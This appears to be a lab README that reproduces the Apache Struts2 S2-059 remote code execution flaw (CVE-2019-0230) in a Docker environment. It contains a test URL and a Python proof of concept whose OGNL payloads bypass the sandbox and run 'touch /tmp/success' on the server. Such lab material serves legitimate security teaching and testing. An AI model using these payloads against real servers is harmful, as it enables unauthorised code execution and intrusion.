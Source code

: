 # Struts2 S2-059 Remote Code Execution Vulnerablity(CVE-2019-0230)

[中文版本(Chinese version)](README.zh-cn.md)

The Apache Struts frameworks, when forced, performs double evaluation of attributes' values assigned to certain tags attributes such as id so it is possible to pass in a value that will be evaluated again when a tag's attributes will be rendered. With a carefully crafted request, this can lead to Remote Code Execution (RCE).

Affected Version: Struts 2.0.0 - Struts 2.5.20

References:

- https://cwiki.apache.org/confluence/display/WW/S2-059
- https://securitylab.github.com/research/ognl-apache-struts-exploit-CVE-2018-11776

## Setup

Start the Struts 2.5.16 environment:

```
docker-compose up -d
```

After the environment is started, visit `http://your-ip:8080/?id=1` and you will see the Struts2 test page.

## Exploit

visit `http://your-ip:8080/?id=%25%7B233*233%7D`, it can be seen that the result of 233*233 has been returned in the id attribute.

![1.png](1.png)

[OGNL Apache Struts exploit: Weaponizing a sandbox bypass (CVE-2018-11776)](https://securitylab.github.com/research/ognl-apache-struts-exploit-CVE-2018-11776) gives the details of OGNL sandbox bypass in Struts 2.5.16.

A simple Python POC for Verifying the vulnerability:

```python
import requests

url = "http://127.0.0.1:8080"
data1 = {
    "id": "%{(#context=#attr['struts.valueStack'].context).(#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.setExcludedClasses('')).(#ognlUtil.setExcludedPackageNames(''))}"
}
data2 = {
    "id": "%{(#context=#attr['struts.valueStack'].context).(#context.setMemberAccess(@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)).(@java.lang.Runtime@getRuntime().exec('touch /tmp/success'))}"
}
res1 = requests.post(url, data=data1)
# print(res1.text)
res2 = requests.post(url, data=data2)
# print(res2.text)
```

Execute the poc and the `touch /tmp/success` command has been executed:

![2.png](2.png)
